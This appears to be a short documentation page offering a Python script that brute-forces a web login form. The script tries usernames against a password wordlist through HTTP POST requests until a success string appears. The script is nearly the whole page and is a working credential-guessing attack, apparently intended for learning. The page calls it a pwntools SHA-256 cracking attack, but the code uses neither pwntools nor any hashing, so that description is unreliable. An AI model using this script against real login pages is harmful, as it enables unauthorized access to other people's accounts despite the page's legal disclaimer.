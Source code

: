 [documentation ](URL "")

---

This script uses the `pwntools` module to perform a SHA-256 password cracking attack.

```py linenums="1"
import requests
import sys

target = "http://127.0.0.1:5000"
usernames = ["admin", "user", "test"]
passwords = "top-100.txt"
needle = "Welcome back"

for username in usernames:
    with open(passwords, "r") as passwords_list:
        for password in passwords_list:
            password = password.strip("\n").encode('latin-1')
            sys.stdout.write(f"[X] Attempting user:password -> {username}:{password.decode('latin-1')}\r")
            sys.stdout.flush()
            
            r = requests.post(target, data={"username": username, "password": password})
            
            if needle.encode() in r.content:
                sys.stdout.write("\n")
                sys.stdout.write(f"\t[>>>>>] Valid password '{password}' found for user '{username}'!")
                sys.exit()

        sys.stdout.flush()
        sys.stdout.write("\n")
        sys.stdout.write(f"\t No password found for '{username}'!")
        sys.stdout.write("\n")
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.